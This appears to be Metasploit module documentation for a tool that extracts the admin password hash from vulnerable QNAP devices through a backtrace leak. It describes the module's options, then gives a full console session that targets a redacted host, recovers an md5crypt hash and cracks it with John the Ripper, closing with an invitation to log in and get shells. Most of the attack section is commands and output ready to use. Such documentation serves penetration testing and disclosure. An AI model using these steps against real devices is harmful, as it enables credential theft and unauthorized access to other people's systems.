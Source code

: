 ## Intro

This is going to be a quick rundown of how to use this module to
retrieve the admin hash from a vulnerable QNAP device.

The defaults I've set should be adequate for blind exploitation, but you
may need to tweak them for your target.

## Options

**OFFSET_START**

You want to set this to a value where you can see a backtrace. Set this
lower if you're not sure. Default is 2000.

**OFFSET_END**

Set this option to a value where you don't see a backtrace. Set this
higher if you're not sure. Default is 5000.

**RETRIES**

Sometimes the attack won't be successful on the first run. This option
controls how many times to retry the attack. Default is 10.

**VERBOSE**

This will tell you how long the binary search took and how many requests
were sent during exploitation. Default is false.

## Usage

Let's run through a successful exploitation. I've tailored the options
to my target. Your target may differ.

```
msf > use auxiliary/gather/qnap_backtrace_admin_hash 
msf auxiliary(qnap_backtrace_admin_hash) > set rhost [redacted]
rhost => [redacted]
msf auxiliary(qnap_backtrace_admin_hash) > set offset_end 3000
offset_end => 3000
msf auxiliary(qnap_backtrace_admin_hash) > set verbose true
verbose => true
msf auxiliary(qnap_backtrace_admin_hash) > run

[*] QNAP [redacted] detected
[*] Binary search of 2000-3000 completed in 5.02417s
[*] Admin hash found at 0x8068646 with offset 2920
[+] Hopefully this is your hash: $1$$vnSTnHkIF96nN6kxQkZrf.
[*] 11 HTTP requests were sent during module run
[*] Auxiliary module execution completed
msf auxiliary(qnap_backtrace_admin_hash) > 
```

We got lucky on this run. Sometimes it takes a couple retries to get the
hash. Now what do we do with it...

```
wvu@kharak:~$ john --wordlist --rules --format=md5crypt shadow
Loaded 1 password hash (md5crypt, crypt(3) $1$ [MD5 128/128 SSSE3 20x])
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter2          (admin)
1g 0:00:00:01 DONE (2017-03-15 04:41) 0.8928g/s 24839p/s 24839c/s
24839C/s flipper2..mercury2
Use the "--show" option to display all of the cracked passwords reliably
Session completed
wvu@kharak:~$ 
```

Cracked! Now you can log in to the device. Shells await!
